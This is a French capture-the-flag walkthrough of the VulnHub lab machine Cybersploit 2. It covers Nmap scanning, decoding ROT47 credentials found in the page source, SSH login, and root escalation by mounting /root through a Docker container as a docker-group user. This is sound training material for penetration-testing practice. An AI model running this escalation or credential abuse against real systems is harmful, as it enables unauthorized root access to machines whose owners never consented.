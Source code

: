 ```yaml
---
title: "CTF Cybersploit: 2"
date: 2021-06-15
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/cybersploit-2,511
parts: 
  - title: 'CTF Cybersploit: 1'
    href: 'ctf-cybersploit-1'
  - title: 'CTF Cybersploit: 2'
---
```



## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.21`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir Cybersploit2 && cd Cybersploit2`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: CyberSploit2
```

On a un un serveur **SSH** sur le port **22** et un serveur **Apache** 2.4.37 sur le port **80**.

Rgardons dans le code source de la page qui comporte un tableau d'utilisateurs et de mots de passe.

```txt
<!----------ROT47---------->  
```

Sur Internet, avec le mot clef "ROT47", on tombe sur du chiffrement.

> ROT47 est une variante de ROT13 qui permet de chiffrer les lettres, les chiffres, et les autres caractères spéciaux2. ROT47 se base sur le code ASCII, qui assigne à chaque symbole un nombre. Il utilise les nombres dans l’intervalle 33 à 126, correspondant respectivement au point d’exclamation (« ! ») et au symbole tilde (« ~ »). Ensuite, selon le même principe que le ROT13, il effectue une rotation de 47 lettres. Le fait d’utiliser un panel de symboles plus important que le ROT13 permet un brouillage plus efficace, même si le code reste trivial à déchiffrer.
Source : [Wikipedia](https://fr.wikipedia.org/wiki/ROT13#Variante).

Sur l'une des lignes du tableau, on a couple d'identifiant qui sort du lot "D92:=6?5C2" et "4J36CDA=@:E`". Quand on décode l'utilisateur, on a "shailendra" et le mot de passe "cybersploit1".

## Pénétration

```bash
$ ssh shailendra@$IP
password: cybersploit1
```

Dans le répertoire de cet utilisateur, on découvre un fichier d'indice.

```bash
$ cat hint.txt
docker
```

Ce dernier nous indique d'utiliser Docker.

```bash
$ id
id=1001(shailendra) gid=1001(shailendra) groups=1001(shailendra),991(docker)
```

Et, effectivement, l'utilisateur courant appartient au groupe "docker".

## Escalation

Cela signifie que l'on peut créer des containers avec des privilèges root car oui, Docker a la réputation d'être rootless. On lance donc un container (éphémère) avec un volume sur le dossier "/root".

`docker run --rm -v /root:/root -ti alpine /bin/ash`

De cette façon, on est dans le container et on peut accéder au contenu dossier "/root".

```bash
$ cat /root/flag.txt
Pwned CyberSploit2 POC
```
